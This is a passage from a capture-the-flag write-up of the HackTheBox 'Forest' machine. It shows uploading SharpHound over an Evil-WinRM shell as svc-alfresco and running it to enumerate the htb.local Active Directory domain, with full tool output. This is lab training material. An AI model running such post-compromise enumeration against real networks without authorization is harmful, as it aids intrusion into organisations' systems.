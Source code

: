 Great! We got a shell as `svc-alfresco`


## **Privilege Escalation**

Now we can upload `SharpHound` to collect data for `BloodHound`.

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> upload /home/sirius/CTF/HTB/Machines/forest/SharpHound.exe
Info: Uploading /home/sirius/CTF/HTB/Machines/forest/SharpHound.exe to C:\Users\svc-alfresco\desktop\SharpHound.exe

                                                             
Data: 1395368 bytes of 1395368 bytes copied

Info: Upload successful!
```

We run the executable, and this results in a zip file.

```shell
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> . .\SharpHound.exe
2023-09-03T02:00:00.4866360-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2023-09-03T02:00:00.5803873-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-03T02:00:00.5960121-07:00|INFORMATION|Initializing SharpHound at 2:00 AM on 9/3/2023
2023-09-03T02:00:01.0178846-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2023-09-03T02:00:01.1430042-07:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2023-09-03T02:00:02.1272662-07:00|INFORMATION|Beginning LDAP search for htb.local
2023-09-03T02:00:02.4553857-07:00|INFORMATION|Producer has finished, closing LDAP channel
2023-09-03T02:00:02.4553857-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2023-09-03T02:00:32.2368916-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2023-09-03T02:00:46.8304822-07:00|INFORMATION|Consumers finished, closing output channel
2023-09-03T02:00:46.8773600-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2023-09-03T02:00:46.9869099-07:00|INFORMATION|Status: 162 objects finished (+162 3.681818)/s -- Using 46 MB RAM
2023-09-03T02:00:46.9869099-07:00|INFORMATION|Enumeration finished in 00:00:44.8615327
2023-09-03T02:00:47.0961126-07:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2023-09-03T02:00:47.1117323-07:00|INFORMATION|SharpHound Enumeration Completed at 2:00 AM on 9/3/2023! Happy Graphing!

*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> ls


    Directory: C:\Users\svc-alfresco\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/3/2023   2:00 AM          18917 20230903020046_BloodHound.zip
-a----         9/3/2023   2:00 AM          19681 MzZhZTZmYjktOTM4NS00NDQ3LTk3OGItMmEyYTVjZjNiYTYw.bin
-a----         9/3/2023   1:59 AM        1046528 SharpHound.exe
-ar---         9/2/2023   4:01 AM             34 user.txt

```